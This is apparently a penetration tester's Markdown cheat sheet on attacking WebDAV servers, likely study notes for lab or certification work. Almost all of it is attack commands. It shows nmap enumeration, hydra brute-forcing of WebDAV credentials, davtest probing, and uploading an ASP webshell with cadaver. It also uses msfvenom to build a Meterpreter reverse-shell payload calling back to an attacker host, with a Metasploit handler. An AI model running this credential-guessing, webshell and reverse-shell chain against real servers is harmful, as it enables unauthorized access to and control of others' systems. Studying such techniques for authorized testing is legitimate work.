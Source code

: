 # HTTP

## WebDAV
- WebDAV typically runs on Apache on MS IIS.
  - Manage files on remote Web server.
  - Requires credentials.

- "DAVTest tests WebDAV-enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable."

- "cadaver is a command-line WebDAV client, with support for file upload, download..."

```
nmap -Pn -sV -p80 --script=http-webdav-scan,http-enum <ip>
```

```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> http-get /webdav
```

```
curl http://<ip>/webdav/ -u <username>:<password>
```

```
davtest -url http://<ip>/webdav -auth <username>:<password>
```

```
cadaver http://<ip>/webdav
Username: <username>
Password: <password>

dav:/webdav/> help
dav:/webdav/> ls
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
==> A webshell is a shell that you can access through the Web. It is NOT a reverse shell.

http://<ip>/webdav/webshell.asp
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > reverse.asp

msf > use /multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST <ip>
msf > set LPORT <port>
msf > exploit

http://<ip>/webdav/reverse.asp
==> Does not work, even with .aspx and x64 payload, why?
```
